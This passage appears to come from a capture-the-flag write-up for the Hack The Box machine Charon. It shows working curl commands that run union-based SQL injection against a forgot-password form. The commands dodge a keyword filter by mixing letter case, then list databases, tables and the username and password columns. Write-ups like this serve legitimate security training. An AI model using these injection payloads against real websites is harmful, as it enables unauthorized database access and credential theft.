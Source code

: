 #### union injection
 
 Trying with a "union" and "UNION" injection results in an error
 
 ```bash
 $ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' union select 1,2,3,4-- -" -d "submit=submit"
Error                                                                                                                                        $ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' UNION select 1,2,3,4-- -" -d "submit=submit"
Error 
```

To bypass it, it is needed to mix uppercase and lowercase letters
```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,2,3,4-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Incorrect format  
```

To fix the incorrect format error an email has to be placed in one of the tags from the union select injection, in this case is in the 4th one 

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,2,3,\"x@charon.htb\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>2    
```

#### retrieving databases

proceeding with the injections I begin by retrieving the databases, in this case to reflect the injection it was needed to place a group_concat(schema_name) in the second tag from the union injection, group_concat will group all the output in one line.

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(schema_name),3,\"x@charon.htb\" from information_schema.schemata-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>information_schema,supercms  
```

#### retrieving tables

retrieving the tables from the database

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(table_name),3,\"x@charon.htb\" from information_schema.tables where table_schema=\"supercms\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>groups,license,operators
```

#### retrieving columns 

retrieving the columns from the tables of the database

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(column_name),3,\"x@charon.htb\" from information_schema.columns where table_schema=\"supercms\" and table_name=\"operators\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>id,__username_,__password_,email 
```
